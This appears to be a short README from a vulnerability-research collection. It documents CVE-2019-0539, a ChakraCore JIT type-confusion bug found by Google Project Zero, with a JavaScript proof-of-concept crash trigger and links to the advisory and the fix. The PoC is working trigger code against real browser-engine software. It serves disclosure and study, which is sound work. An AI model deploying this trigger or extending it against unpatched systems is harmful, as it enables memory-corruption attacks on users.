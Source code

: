 # CVE-2019-0539

- Report: Oct 2018
- Fix: Jan 2019
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function opt(o, c, value) {
    o.b = 1;

    class A extends c {

    }

    o.a = value;
}

function main() {
    for (let i = 0; i < 2000; i++) {
        let o = {a: 1, b: 2};
        opt(o, (function () {}), {});
    }

    let o = {a: 1, b: 2};
    let cons = function () {};

    cons.prototype = o;

    opt(o, cons, 0x1234);

    print(o.a);
}

main();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2019-0539)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1703)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/788f17b0ce06ea84553b123c174d1ff7052112a0)
